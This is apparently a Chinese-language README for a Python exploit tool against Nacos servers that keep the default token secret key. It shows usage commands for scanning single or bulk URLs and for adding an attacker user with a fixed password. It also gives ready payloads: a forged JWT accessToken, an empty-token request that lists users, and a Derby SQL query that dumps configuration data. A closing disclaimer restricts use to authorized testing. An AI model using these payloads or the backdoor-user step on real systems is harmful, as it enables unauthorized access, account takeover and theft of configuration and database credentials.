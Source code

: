 # Nacos_default.token

Nacos 平台在默认配置下未对 token.secret.key 进行修改，攻击者通过漏洞可以获取服务器数据库/OSS等权限。

## 工具利用

python3 Nacos_default.token.py -u http://127.0.0.1:1111 单个url测试

python3 Nacos_default.token.py -a http://127.0.0.1:1111 添加用户m2orz/zzz321..

python3 Nacos_default.token.py -f url.txt 批量检测

payload1:http://xxx.com/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9

payload2:http://xxx.com/nacos/v1/auth/users?accessToken=&pageNo=1&pageSize=9

23年9月15日更新
增加sql注入扫描
payload4:nacos/v1/cs/ops/derby?sql=select * from config_info

扫描结束后会在当前目录生成存在漏洞url的vuln.txt


## 免责声明

此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
